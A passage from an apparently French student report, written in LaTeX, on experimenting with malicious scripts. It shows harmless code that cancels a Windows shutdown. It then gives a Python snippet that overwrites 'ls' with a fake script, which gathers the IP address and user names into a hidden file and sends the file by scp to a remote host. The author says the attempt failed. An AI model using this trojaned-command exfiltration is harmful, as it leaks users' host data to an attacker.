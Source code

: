 \medskip
\medskip

\begin{lstlisting}[caption={Empêcher l'arrêt du système ".c"},label={listing:C}]
#include <stdio.h>		//Directive
#include <stdlib.h>		//Directive

int main()

{
	system("c:\\windows\\system32\\shutdown /a");
	return 0;
}
\end{lstlisting}


Afin d'éviter de rallumer mon ordinateur à chaque essai des codes ci-dessus, j'ai simplement écrit ce qu'il y a au Listing 2.8, qui grâce au \textit{shutdown /a}, va annuler l'arrêt de la machine. Ce qui est bien plus pratique pour continuer à avancer dans le script.
\medskip

Le code peut également être écrit en Batch (toujours en cachant son exécution grâce au \textit{echo off}, et à l'annulation du shutdown avec \textit{-a})de la manière qui suit:

\medskip
\medskip

\begin{lstlisting}[caption={Empêcher l'arrêt du système ".bat"},label={listing:Batch}]
@echo off
shutdown -a
\end{lstlisting}

\medskip
\medskip


Pour l'infection qui concluait par une connection ssh, il me fallait continuer le script du Listing 2.1.
 
\begin{lstlisting}[caption={suite bomb()},label={listing:Python}]
fichier = open("ls", "w")
fichier.write("#!/bin/bash 
ls -la 
ip addr > .addresse.txt 
users >> .addresse.txt 
scp -p .addresse.txt utilisateur@adresse ")
fichier.close()
\end{lstlisting}

Le but était de créer un script Bash qui peut être lancé dans la console. Dans ce script Bash, je demande à ce que l'ordinateur mette l'addresse ip de l'utilisateur et son nom d'utilisateur dans un document qui s'appelle \textit{.addresse.txt}. Pour que finalement, ce document me soit envoyé par scp sur une autre machine. 
Je ne suis malheureusement pas parvenu à le faire; lorsque je lançais un ls dans le terminal, il ne lisait pas le nouveau fichier remplacé, mais bien la liste des fichiers. Le nouveau document ne se créait pas et donc le transfert de documents ne s'est pas déroulé.   


